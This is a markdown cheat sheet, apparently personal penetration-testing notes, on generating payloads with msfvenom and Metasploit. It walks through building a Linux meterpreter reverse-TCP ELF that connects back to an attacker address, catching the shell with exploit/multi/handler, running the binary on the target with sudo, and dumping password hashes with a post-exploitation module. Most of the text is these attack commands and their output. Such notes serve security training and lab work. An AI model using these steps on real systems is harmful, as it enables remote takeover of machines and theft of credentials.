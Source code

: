# Msfvenom

### Help menu

```bash
$ msfvenom -h
```

### List available options for module type

```bash
$ msfvenom -l payloads
$ msfvenom -l encoders
$ msfvenom -l nops
$ msfvenom -l all
```

### Payload option

```bash
$ msfvenom -p ...

# eg. 
$ msfvenom -p linux/x86/shell_reverse_tcp
```

### Format option

```bash
$ msfvenom -f ...

# eg.
$ msfvenom -f elf
$ msfvenom -f exe
 
```

_**Note**_: The output from msfvenom provides the shellcode (typically written in assembly language) that can be executed on the target architecture; defined by the `-p`flag. The `-f` flag simply specifies the format for which the shellcode should be in.

Eg. **Powershell**

`[Byte[]] $buf = 0xfc,0x48,0x83,...`

Eg. **C**

`unsigned char buf[] = "\xfc\x48\x83...`

Eg. **Python**

`buf = b""`&#x20;

`buf += b"\xfc\x48\x8`

`buf += b"\...`



A script/program (in the specific language) which executes the shellcode provided by **msfvenom** is still required to be created.

### Example

`linux/x86/meterpreter/reverse_tcp`

```bash
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.xxx.xxx LPORT=8000 -f elf > shell.elf
```

#### Module to use on the attacking machine to catch a shell

`exploit/multi/handler`

```bash
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost xxx.xxx.xxx.xxx
msf6 exploit(multi/handler) > set lport xxxx
msf6 exploit(multi/handler) > run
```

#### Run the shellcode on the target machine

```bash
# eg.
$ sudo ./shell.elf
```

#### Gain meterpreter shell on the attacker machine

```
meterpreter >
```

#### Using post exploitation hash dump module&#x20;

<pre class="language-bash"><code class="lang-bash"><strong>meterpreter > background
</strong>msf6 exploit(multi/handler) > sessions -l 

Active sessions
===============

  Id  Name  Type                  Information            Connection
  --  ----  ----                  -----------            ----------
  1         meterpreter x86/linux  ...                    ...

msf6 exploit(multi/handler) > use post/linux/gather/hashdump
msf6 post(linux/gather/hashdump) > show options
msf6 post(linux/gather/hashdump) > set session 1
msf6 post(linux/gather/hashdump) > run
...
</code></pre>

{% embed url="https://www.offsec.com/metasploit-unleashed/msfvenom/" %}
